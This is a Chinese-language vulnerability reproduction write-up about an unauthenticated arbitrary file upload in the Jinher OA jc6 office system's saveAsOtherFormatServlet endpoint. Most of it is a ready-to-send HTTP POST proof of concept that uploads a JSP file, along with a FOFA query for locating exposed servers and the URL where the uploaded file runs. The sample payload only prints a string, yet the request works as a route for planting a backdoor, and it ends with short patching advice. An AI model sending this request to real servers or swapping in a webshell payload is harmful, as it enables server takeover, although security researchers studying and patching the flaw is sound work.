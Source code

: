 
# 金和 OA jc6 任意文件上传漏洞复现

### 0x01 产品简介

   金和[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020)协同办公管理系统软件（简称金和 OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。

### 0x02 漏洞概述

   金和 OA jc6 系统 saveAsOtherFormatServlet 接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。 

### 0x03 复现环境

FOFA：app="金和网络 - 金和 OA"

![](assets/1699929237-bda0d44f0b2dc26b3d8d4189efabcfc9.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /jc6/servlet/saveAsOtherFormatServlet?fileName=test.jsp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="FileBlod";filename="test.jsp"
Content-Type: image/png

<% out.println("123456");%>
------WebKitFormBoundary
```

![](assets/1699929237-8f950e17d5b58994ce7fe5c1db8415a8.png)

验证 url

```cobol
http://your-ip/jc6/upload/gwzw/test.jsp
```

![](assets/1699929237-91cb4709862e54f0cc712da0ae9e86c1.png)

### 0x05 修复建议

  关闭互联网暴露面或设置接口访问权限

 升级至安全版本
